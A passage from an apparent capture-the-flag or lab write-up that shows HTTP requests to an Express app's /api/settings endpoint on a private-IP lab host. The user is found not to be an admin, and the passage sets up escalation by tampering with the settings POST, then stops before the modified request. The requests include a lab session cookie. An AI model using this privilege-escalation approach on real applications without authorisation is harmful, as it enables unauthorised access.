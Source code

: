 > Yay! We got a valid user account.
{: .prompt-info }

## check user settings

Now we are using the `API` to check the settings of the user `dev-acct`.

### request
```http
GET /api/settings HTTP/1.1
Host: 192.168.135.106
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Referer: http://192.168.135.106/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AMJ1jG892oKVwRi3rIMKyjsDm5uBSY8Vd.ZOktdXW76go01TGeemuMa%2BzSdZYoPowTicSZVFdGyzY
Connection: close
```

### response
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 48
ETag: W/"30-onnGf9UI1fkFgxSDXSX53FR+X8U"
Date: Tue, 08 Feb 2022 05:48:38 GMT
Connection: close

{"color-theme":"light","lang":"en","admin":false}
```

> Unfortunately we are not an admin.
{: .prompt-danger }

## escalate to an admin account
Observing the `API` requests reveals that when changing ui mode a post request is made to `/api/settings`

### ui change request
```http
POST /api/settings HTTP/1.1
Host: 192.168.135.106
Content-Length: 23
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Origin: http://192.168.135.106
Referer: http://192.168.135.106/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AMJ1jG892oKVwRi3rIMKyjsDm5uBSY8Vd.ZOktdXW76go01TGeemuMa%2BzSdZYoPowTicSZVFdGyzY
Connection: close

{"color-theme":"light"}
```
